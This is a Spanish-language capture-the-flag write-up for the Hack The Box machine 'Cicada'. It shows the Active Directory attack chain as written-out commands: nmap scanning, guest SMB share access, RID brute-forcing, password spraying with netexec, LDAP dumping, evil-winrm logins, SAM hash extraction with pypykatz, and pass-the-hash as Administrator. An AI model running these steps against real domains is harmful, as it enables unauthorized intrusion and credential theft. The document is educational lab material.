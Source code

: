 ```yaml
---
title: Cicada
published: 03 Oct 2024
---
```

* * *

En este writeup, exploramos la máquina Cicada de Hack The Box, donde explotamos Active Directory mediante la recopilación de información y la técnica Pass-the-Hash. Finalmente, logramos comprometer el dominio y extraer datos sensibles.

# [](#header-1)RECONOCIMIENTO

Empezaré por scanear todos los protocolos en la máquina objetivo:
  1. Escanear los puertos abiertos.
  2. Escanear los servicios en cada puerto que esté abierto.
	```js
		nmap -sCV -v 10.10.11.35 -Pn -T3
	```
Como resultado encontramos esto:
  ```ruby
  
  Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
	Starting Nmap 7.93 https://nmap.org at 2024-10-02 12:18 CEST
	NSE: Loaded 155 scripts for scanning.
	NSE: Script Pre-scanning.
	Initiating NSE at 12:18
	Completed NSE at 12:18, 0.00s elapsed
	Initiating NSE at 12:18
	Completed NSE at 12:18, 0.00s elapsed
	Initiating NSE at 12:18
	Completed NSE at 12:18, 0.00s elapsed
	Initiating Parallel DNS resolution of 1 host. at 12:18
	Completed Parallel DNS resolution of 1 host. at 12:18, 0.01s elapsed
	Initiating Connect Scan at 12:18
	Scanning 10.10.11.35 [1000 ports]
	Discovered open port 135/tcp on 10.10.11.35
	Discovered open port 53/tcp on 10.10.11.35
	Discovered open port 445/tcp on 10.10.11.35
	Discovered open port 139/tcp on 10.10.11.35
	Discovered open port 464/tcp on 10.10.11.35
	Discovered open port 389/tcp on 10.10.11.35
	Discovered open port 593/tcp on 10.10.11.35
	Discovered open port 88/tcp on 10.10.11.35
	Discovered open port 3269/tcp on 10.10.11.35
	Discovered open port 3268/tcp on 10.10.11.35
	Discovered open port 636/tcp on 10.10.11.35
	Completed Connect Scan at 12:18, 4.00s elapsed (1000 total ports)
	Initiating Service scan at 12:18
	Scanning 11 services on 10.10.11.35
	Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
	Service scan Timing: About 63.64% done; ETC: 12:18 (0:00:05 remaining)
	Completed Service scan at 12:19, 45.25s elapsed (11 services on 1 host)
	NSE: Script scanning 10.10.11.35.
	Initiating NSE at 12:19
	Completed NSE at 12:19, 40.04s elapsed
	Initiating NSE at 12:19
	Completed NSE at 12:19, 1.60s elapsed
	Initiating NSE at 12:19
	Completed NSE at 12:19, 0.00s elapsed
	Nmap scan report for 10.10.11.35
	Host is up (0.037s latency).
	Not shown: 989 filtered tcp ports (no-response)
	PORT     STATE SERVICE       VERSION
	53/tcp   open  domain        Simple DNS Plus
	88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-02 17:18:36Z)
	135/tcp  open  msrpc         Microsoft Windows RPC
	139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
	389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
	| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
	| Subject Alternative Name: othername:<unsupported>, DNS:CICADA-DC.cicada.htb
	| Issuer: commonName=CICADA-DC-CA
	| Public Key type: rsa
	| Public Key bits: 2048
	| Signature Algorithm: sha256WithRSAEncryption
	| Not valid before: 2024-08-22T20:24:16
	| Not valid after:  2025-08-22T20:24:16
	| MD5:   9ec51a2340efb5b83d2c39d8447ddb65
	|_SHA-1: 2c936d7bcfd811b99f711a5a155d88d34a52157a
	|_ssl-date: TLS randomness does not represent time
	445/tcp  open  microsoft-ds?
	464/tcp  open  kpasswd5?
	593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
	636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
```

  En especial encontramos un Active Directory (CICADA-DC.cicada.htb)

* * *

# [](#header-1)Foothold

El foothold en esta máquina es fácil. Vamos a probar un par de cosas:


Vamos a intentar conectarnos con la herramienta NetExec mediante SMB con el usuario "guest" a ver si podemos:

```js
❯ netexec smb 10.10.11.35 -u 'guest' -p '
```
Y nos deja conectarnos:
```ruby
	[*] First time use detected
	[*] Creating home directory structure
	[*] Creating missing folder logs
	[*] Creating missing folder modules
	[*] Creating missing folder protocols
	[*] Creating missing folder workspaces
	[*] Creating missing folder obfuscated_scripts
	[*] Creating missing folder screenshots
	[*] Creating default workspace
	[*] Initializing FTP protocol database
	[*] Initializing LDAP protocol database
	[*] Initializing MSSQL protocol database
	[*] Initializing RDP protocol database
	[*] Initializing SMB protocol database
	[*] Initializing SSH protocol database
	[*] Initializing VNC protocol database
	[*] Initializing WINRM protocol database
	[*] Initializing WMI protocol database
	[*] Copying default configuration file
	SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
	SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest:
```
Ahora voy a proceder a listar las carpetas que se comparte y encontramos algunas que pueden contener información sensible:

```js
❯ netexec smb 10.10.11.35 -u 'guest' -p '' --shares
```
Y encontramos dos carpetas que son de nuestros interes, HR y DEV, voy a intentar acceder a HR a ver si puedo encontrar algo:
```js
smbclient //10.10.11.35/HR
```
```js
smb: \> ls
	  .                                   D        0  Thu Mar 14 13:29:09 2024
	  ..                                  D        0  Thu Mar 14 13:21:29 2024
	  Notice from HR.txt                  A     1266  Wed Aug 28 19:31:48 2024
```
Y encontramos un .txt en el que dentro de el se encuentra una credencial.
![Texto alternativo](/assets/cicada.png)

Ahora con los usuarios que encontramos en SidTypeUser con este comando:
```js
cme smb 10.10.11.35 -u 'guest' -p '' --rid-brute | grep SidTypeUser
```
Lo metemos en un archivo y aplicamos fuerza bruta para probar esa credencial con todos los usuarios que hemos encontrado:
```js
netexec smb 10.10.11.35 -u users.list -p 'Credencial'
```
Y vemos que esa credencial coincide con el usuario "michael".
![Texto alternativo](/assets/cicada2.png)

Ahora con dumpear toda la información que podamos logueados como este usuario:
```js
ldapdomaindump ldap:/10.10.11.35 -u 'cicada.htb\michael.wrightson' -p "Credencial"
```
![Texto alternativo](/assets/cicada3.png)

Y mirando entre estos archivos, encontramos otra credencial, en este caso de el usuario "david" dentro del archivo (domain_users.grep).

Esta credencial y usuario nos va a permitir acceder a los archivos que se encuentra dentro de la carpeta DEV, ya que con el usuario "michael" no podía acceder.
![Texto alternativo](/assets/cicada4.png)
![Texto altenativo](/assets/cicada5.png)

Encontramos otra credencial dentro de ese archivo .ps1
Asique ahora mediante evil-winrm nos vamos a conectar al AD en busca de la user flag.
```js
evil-winrm -i 'cicada.htb' -u 'emily.oscars' -p 'Credencial'
```
Y ya estamos dentro:

![Texto altenativo](/assets/cicada6.png)

Si buscamos un poco por los directorios, encontramos la user flag:
![Texto altenativo](/assets/cicada7.png)

# [](#header-1)Escalada de Privilegios

Primero de todo voy a ver sobre que tengo privilegios:

![Texto altenativo](/assets/cicada8.png)

Lo que voy a hacer ahora es extraer la base de datos SAM para extraer los hashes NTLM/NTHash que estan almacenadas en el sistema:
```js
pypykatz registry --sam sam system
```
```js
[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
	[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
	Administrator:500:NTHASHDELUSUARIOADMINISTRATOR*********
	*******:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c
	0:::
	DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59
	d7e0c089c0:::
```
Ahora una vez conseguido ese NTHash del usuario "Administrator" nos logueamos utilizando evil-winrm:
```js
evil-winrm -i 10.10.11.35 -u administrator -H "NTHASHdeAdministator"
```
Y ya encontrariamos la root flag.

![Texto altenativo](/assets/cicada9.png)


PWNED!